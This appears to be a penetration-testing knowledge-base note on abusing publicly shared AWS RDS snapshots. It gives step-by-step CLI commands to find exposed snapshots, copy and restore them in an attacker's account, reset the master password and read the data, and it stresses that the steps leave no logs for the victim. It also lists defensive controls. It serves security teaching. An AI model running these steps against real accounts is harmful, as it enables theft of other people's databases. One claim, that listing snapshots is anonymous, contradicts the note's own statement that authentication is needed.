

# AWS RDS Database Snapshots and Public Exposure

## Introduction to RDS Snapshots

Amazon Relational Database Service (RDS) provides managed database environments. To facilitate disaster recovery, backups, and environment cloning, AWS RDS supports automated and manual database snapshots. A snapshot is a storage volume backup of the entire database instance, capturing data, schema, and configurations at a specific point in time.

While snapshots are critical for resilience, they represent a massive security risk if mismanaged. An RDS snapshot contains a complete copy of the database. If this snapshot is exposed, an attacker gains access to all stored data—including Personally Identifiable Information (PII), protected health information, plaintext or hashed passwords, API keys, and other sensitive corporate assets—without ever having to bypass firewalls, application authentication, or database network access controls.

## The Misconfiguration: Public Snapshots

AWS allows users to share manual RDS snapshots with specific AWS account IDs (cross-account sharing) or to make them "Public." 

**The Vulnerability**: 
When an administrator mistakenly sets an RDS snapshot's visibility to `Public`, the snapshot becomes accessible to *any* AWS customer globally. There is no public marketplace or web UI that openly lists all public snapshots, which creates a false sense of security (Security by Obscurity). However, any authenticated AWS user (even an attacker with a newly created free-tier account) can programmatically query the AWS API to list public snapshots and filter them.

## Attack Flow and Architecture Diagram

The attack relies on asynchronous API interactions. The attacker does not interact with the victim's live environment, meaning this attack generates **zero logs** in the victim's CloudTrail or VPC flow logs during the data extraction phase.



## Step-by-Step Exploitation Methodology

### Phase 1: Discovery and Enumeration

Attackers continuously scan for public RDS snapshots using the `describe-db-snapshots` API call. Because there are thousands of public snapshots (often test environments or deliberate public datasets), attackers filter by keywords such as `prod`, `backup`, `customer`, `secret`, or specific company names.

```bash
# List all public snapshots
aws rds describe-db-snapshots \
  --snapshot-type public \
  --region us-east-1

# Filter for specific keywords using jq
aws rds describe-db-snapshots \
  --snapshot-type public \
  --region us-east-1 \
  | jq '.DBSnapshots[] | select(.DBSnapshotIdentifier | contains("prod-db-backup"))'
```

### Phase 2: Copying the Snapshot

Once a target snapshot is identified, the attacker cannot immediately extract data from it. They must first create a copy of the snapshot within their own AWS account. This ensures they have full ownership and can manipulate it without relying on the victim's account state.

```bash
aws rds copy-db-snapshot \
  --source-db-snapshot-identifier "arn:aws:rds:us-east-1:123456789012:snapshot:victim-prod-backup" \
  --target-db-snapshot-identifier "attacker-local-copy" \
  --region us-east-1
```
*Note: Depending on the size of the database, this copying process can take several minutes to hours.*

### Phase 3: Restoring to a New DB Instance

With the snapshot copied, the attacker restores it into a new, live RDS instance running entirely within their own AWS Virtual Private Cloud (VPC). The attacker configures this new instance to be publicly accessible or accessible from their own IP.

```bash
aws rds restore-db-instance-from-db-snapshot \
  --db-instance-identifier "exploited-db-instance" \
  --db-snapshot-identifier "attacker-local-copy" \
  --db-instance-class "db.t3.micro" \
  --publicly-accessible \
  --region us-east-1
```

### Phase 4: Bypassing Authentication and Data Extraction

Even though the attacker owns the new RDS instance, the database itself (e.g., MySQL, PostgreSQL) still retains the original authentication mechanisms and master passwords set by the victim. The attacker does not know the victim's database password.

However, because the attacker is the administrator of the RDS service in their account, they can arbitrarily reset the master database user's password via the AWS API.

```bash
# Modify the instance to reset the master password
aws rds modify-db-instance \
  --db-instance-identifier "exploited-db-instance" \
  --master-user-password "AttackerControlledPass123!" \
  --apply-immediately \
  --region us-east-1
```

Once the modification is complete and the instance reboots, the attacker connects using standard database client tools (e.g., `psql`, `mysql`) using the master username (often default like `postgres` or `admin`) and the newly set password.

```bash
mysql -h exploited-db-instance.xxxxxxxx.us-east-1.rds.amazonaws.com -u admin -p
```

The attacker now has unrestricted, complete access to all tables, schemas, and records.

## Data Exfiltration and Lateral Movement via DB Data

The data within the database often leads to further compromise:
1. **Password Hashes**: Attackers will dump user tables and begin offline cracking of password hashes to compromise user accounts on the main application.
2. **API Keys and Secrets**: Applications often store third-party API keys (Stripe, Twilio, SendGrid) or internal microservice tokens in the database.
3. **Session Tokens**: Active session tokens can be extracted to hijack live user sessions.

## Stealth and Evasion Characteristics

The most dangerous aspect of this attack is its stealth. 
- The API call to list public snapshots is anonymous and not logged against the victim's account.
- The action of an attacker copying a public snapshot is **not logged** in the victim's CloudTrail. The victim has no programmatic way of knowing that their public snapshot has been copied or by whom.
- All subsequent actions (restoring, password resets, data dumping) occur entirely within the attacker's AWS environment, generating zero telemetry for the victim's Security Operations Center (SOC).

## Mitigation and Defense Strategies

Defending against snapshot exposure requires proactive guardrails:

1. **Disable Public Access at the Account Level**:
   AWS offers the ability to block public access to RDS snapshots at the account or organizational level. Using Service Control Policies (SCPs) in AWS Organizations, administrators can explicitly deny the `rds:ModifyDBSnapshotAttribute` action if the attribute is `all` (which represents public sharing).
   
2. **Automated Remediation**:
   Deploy AWS Config rules (e.g., `rds-snapshots-public-prohibited`) to continuously monitor snapshot permissions. If a snapshot is detected as public, an EventBridge rule can trigger a Lambda function to immediately remove the public attribute.

3. **Encryption at Rest**:
   Always encrypt RDS instances using AWS Key Management Service (KMS). If an RDS instance is encrypted with a custom KMS key, its snapshots are also encrypted. An encrypted snapshot **cannot** be made public. This is the strongest technical control against accidental public exposure, as the KMS key policy would also need to explicitly allow the attacker's account to decrypt it.

4. **Strict IAM Policies**:
   Restrict which IAM users or roles have the `rds:ModifyDBSnapshotAttribute` permission, ensuring only highly trusted administrators or automated backup systems can alter snapshot sharing settings.

## Chaining Opportunities

- **[[10 - SecretsManager and Parameter Store Data Exfiltration]]**: If the attacker finds database credentials in SSM or Secrets Manager, they don't even need a snapshot; they can connect to the live DB. However, if they find partial application source code that points to RDS endpoints, finding a public snapshot bypasses the need for live credentials.
- **[[01 - S3 Bucket Misconfigurations and Data Leaks]]**: Sometimes automated backup scripts export RDS databases to S3 buckets. If RDS snapshot sharing is locked down, attackers will pivot to scanning associated S3 buckets for `.sql.gz` or `.csv` database dumps.

## Related Notes
- [[02 - AWS STS and Cross-Account AssumeRole Abuse]]
- [[05 - EBS Volume Snapshot Exploitation]]
- [[09 - AWS CloudTrail Evasion and Log Manipulation]]
